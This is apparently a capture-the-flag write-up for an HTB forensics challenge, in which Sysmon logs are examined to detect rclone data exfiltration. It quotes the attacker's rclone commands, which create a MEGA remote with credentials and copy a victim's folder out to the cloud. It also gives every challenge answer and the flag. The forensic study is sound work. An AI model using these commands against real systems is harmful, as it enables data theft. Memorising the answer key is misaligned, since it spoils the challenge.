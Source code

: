 # forensics/Packet Cyclone

### Description
> Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

We have a folder with sigma rules for malware and a folder with Windows logs (.evtx)

I used this tool to read Windows logs(sigma rules didn't work for me):
https://github.com/omerbenamram/evtx

In file `Microsoft-Windows-Sysmon%4Operational.evtx` in record 76 we can find answers for questions 1-4:

```
<Data Name="CommandLine">"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI</Data>
```

1.What is the email of the attacker used for the exfiltration process? (for example: name@email.com)

**majmeret@protonmail.com**

2.What is the password of the attacker used for the exfiltration process? (for example: password123)

**FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI**

3.What is the Cloud storage provider used by the attacker? (for example: cloud)

**mega**

4.What is the ID of the process used by the attackers to configure their tool? (for example: 1337)

**3820**

In the same file in record 78 we can find answers for questions 5-6:
```
<Data Name="CommandLine">"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v</Data>
```

5.What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)

**C:\Users\Wade\Desktop\Relic_location**

6.What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)

**exfiltration**

*HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}*


